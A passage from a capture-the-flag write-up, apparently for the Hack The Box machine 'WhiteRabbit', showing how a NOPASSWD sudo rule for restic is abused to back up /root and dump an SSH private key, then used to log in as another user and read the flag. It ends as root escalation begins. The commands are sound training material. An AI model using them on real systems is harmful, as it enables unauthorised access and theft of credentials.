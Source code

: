 I realized I could use this `NOPASSWD` `restic` privilege to back up sensitive directories, like `/root/`, and then extract their contents.

First, I initialized a new local Restic repository on the remote machine, executed as `root` via `sudo`:

sudo /usr/bin/restic init --repo .

(I set a new password for this local repository.)

Then, I backed up the `/root/` directory:

sudo /usr/bin/restic --repo . backup /root/

Finally, I dumped the contents of `/root/morpheus` from this new backup. This file was anticipated to contain the SSH private key for the `morpheus` user.

sudo /usr/bin/restic --repo . dump latest /root/morpheus

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*Ic0d4SpqBxDs6OKMgjj5CQ.png)

Screenshot 11: Terminal showing `sudo restic init`, `sudo restic backup /root/`, and `sudo restic dump latest /root/morpheus` with the key content.

SSH as `morpheus` and User Flag Retrieval
=========================================

I copied the `morpheus` private key content, saved it to `morpheus_id_rsa` on my Kali machine, and set its permissions. An SSH connection was then established to `whiterabbit.htb` as `morpheus` on the default SSH port (22):

nano morpheus_id_rsa # Paste key here\
chmod 600 morpheus_id_rsa\
ssh -i morpheus_id_rsa morpheus@whiterabbit.htb

Upon successful login as `morpheus`, I quickly located and read the `user.txt` flag:

cat user.txt

The user flag obtained was: ********************************

(Cannot give away the flag as the machine is still active.)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*3Dp6_obCBhA7n2Kzog52KA.png)

Screenshot 12: Terminal showing `chmod 600 morpheus_id_rsa`, successful SSH as `morpheus`, and `cat user.txt` with the user flag.

Phase 5: Root Privilege Escalation (Neo Password Generator)
===========================================================

With the user flag secured, the final objective was root privilege escalation. I recalled the `sqlmap` output (which contained `command_log` details) indicating that `/opt/neo-password-generator/neo-password-generator` was executed at `2024-08-30 14:40:42`. This binary was used to set the `neo` user's password.
